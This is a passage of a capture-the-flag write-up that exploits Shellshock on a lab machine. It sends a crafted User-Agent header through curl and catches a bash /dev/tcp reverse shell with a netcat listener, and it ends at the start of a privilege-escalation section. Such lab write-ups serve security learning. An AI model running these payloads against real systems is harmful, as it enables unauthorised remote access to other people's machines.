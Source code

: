 ![image-20210614115510696](C:\Users\brice\AppData\Roaming\Typora\typora-user-images\image-20210614115510696.png)

Now all we need to do is simply change the `User-Agent` HTTP Header by having the Shellshock payload instead of Mozilla/5.0..... So `User-Agent` should look something like this: 

```
User-Agent: () { :;};[CMD]
```

[CMD] is where you are going to put your command you want to run on the host. Looking at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) for `Bash TCP reverse shells,` we are going to use `/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1` where you are going to change `10.0.0.1` to your IP address. So now my `User-Agent` HTTP header looks like the following:

```
User-Agent: () { :;};/bin/bash -l > /dev/tcp/10.10.14.36/4242 0<&1 2>&1
```

Before you send this request, have a Netcat listener running on port 4242. 

```
nc -lvnp 4242
```

Something to keep in mind is that you can send this request through `Burp Suite` (probably the easiest way in my opinion), or you can use things like `curl` too. For `Burp Suite`, just change the `User-Agent` HTTP header to what was shown before, if you are using curl you could use the following command:

```
curl -A "() { :;};/bin/bash -l > /dev/tcp/10.10.14.36/4242 0<&1 2>&1" http://10.10.10.56/cgi-bin/user.sh
```

The `-A` flag specifies what you want to input for the `User-Agent` HTTP header. After running this command, we can see we got a connection from `10.10.10.56` and have a low privilege shell as the user shelly.

```
root@kali-[~]nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.56] 42914
whoami && id
shelly
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## Privilege Escalation

For privilege escalation, it is always important to go and run some sort of enumeration tool such as `LinEnum` or `linpeas`. These tools will enumerate for misconfigurations, exploits, interesting config files, etc. 

Personally, I am going to use `LinEnum`. If you do not already have `LinEnum` or `linpeas` they can be cloned running:
